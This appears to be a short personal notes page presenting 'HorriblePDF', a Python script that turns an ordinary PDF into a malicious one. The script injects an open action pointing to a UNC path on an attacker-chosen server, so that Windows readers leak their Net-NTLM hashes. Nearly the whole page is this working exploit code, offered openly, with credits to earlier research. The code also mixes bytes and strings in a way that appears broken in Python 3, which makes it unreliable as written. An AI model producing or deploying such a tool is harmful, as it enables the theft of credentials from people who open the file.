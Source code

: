```yaml
---
layout: memory
title: Crafting a HorriblePDF
---
```


Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
    
```python
import sys

banner = """
  ___ ___                     ._____.   .__        __________________  ___________
 /   |   \  __________________|__\_ |__ |  |   ____\______   \______ \ \_   _____/
/    ~    \/  _ \_  __ \_  __ \  || __ \|  | _/ __ \|     ___/|    |  \ |    __)  
\    Y    (  <_> )  | \/|  | \/  || \_\ \  |_\  ___/|    |    |    `   \|     \   
 \___|_  / \____/|__|   |__|  |__||___  /____/\___  >____|   /_______  /\___  /   
       \/                             \/          \/                 \/     \/    

Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
"""

def add_payload(data,ip):
    payload = '/AA <</O <</F (\\\\\\\\' + ip + '\\\\test)/D [ 0 /Fit]/S /GoToE>>>>'
    index1 = data.find('/Parent') + 13    
    return data[0:index1] + payload + data[index1:]   


if __name__ == "__main__":
    print(banner)

    if len(sys.argv)!=3:
        print('\nUsage:')
        print('    HorriblePDF.py <normal PDF file Path> <ServerIP>')   
        sys.exit(0)    

    print(f"[*] Normal PDF: {sys.argv[1]}")
    print(f"[*] Server IP: {sys.argv[2]}")
    
    with open(sys.argv[1],'rb') as file_object:
        all_the_text = file_object.read( )

    new_data = add_payload(all_the_text,sys.argv[2])
    new_malicious_path = sys.argv[1] + '.malicious.pdf'
    
    print(f"[+] HorriblePDF: {new_malicious_path}")  
    with open(new_malicious_path, 'wb') as horrible_pdf:
        horrible_pdf.write(new_data)
    print("[*] All Done")

```
